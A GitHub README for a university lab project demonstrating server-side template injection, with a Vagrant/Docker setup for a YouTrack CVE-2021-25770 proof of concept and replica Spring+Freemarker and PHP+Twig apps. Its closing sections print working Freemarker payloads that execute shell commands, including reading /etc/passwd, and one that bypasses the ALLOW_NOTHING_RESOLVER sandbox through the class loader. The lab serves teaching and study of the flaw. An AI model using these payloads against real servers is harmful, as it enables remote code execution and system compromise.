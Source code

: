 # Server Side Template Injection Project (CS5331)
This Docker project contains a case study POC for CVE 2021-25770 on Youtrack, a replica code on Spring+Freemarker as well as replica code on PHP+Twig to demonstrate the generalized concept of SSTI.

![](arch.png)

## Installation and Setup
The project require `Vagrant v2.3.4` and `VirtualBox v7.x` installed, and execute the following on an x86 environment:

```
$ git https://github.com/lamyongxian/cs5331-ssti.git
$ cd ./cs5331-ssti
$ vagrant up
```

## Accessing the POCs
1. Youtrack Vulnerable*: http://192.168.56.10:8080/
2. Youtrack Baseline*: http://192.168.56.10:8081/
3. Spring + Freemarker: http://192.168.56.10:8082/
4. PHP + Twig: http://192.168.56.10:8083/

*At this point, a Youtrack require a token to be entered during initial setup, which can be found in the follow directory *within the Docker container*:
`/root/teamsysdata/conf/internal/services/configurationWizard/wizard_token.txt`

### On VM `SERVERSSTI`:
(username: `vagrant`, password: `vagrant`)

To retrieve the Youtrack containers name:
```
$ sudo docker ps -a
```

Then use the `docker exec` to attach to respective Docker container
```
$ sudo docker exec -it <Container ID> bash
# cat /root/teamsysdata/conf/internal/services/configurationWizard/wizard_token.txt
```

## Example of RCE code on Freemarker
```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("id")}
```
```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("cat /etc/passwd")}
```

## ALLOW_NOTHING_RESOLVER (Since v2.3.17) Bypass for Freemarker
Using an underlying JDK-Spring vulnerability in `class.protectionDomain.classLoader` (Like Spring4Shell) to by-pass framework level sandbox protection:
```
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```
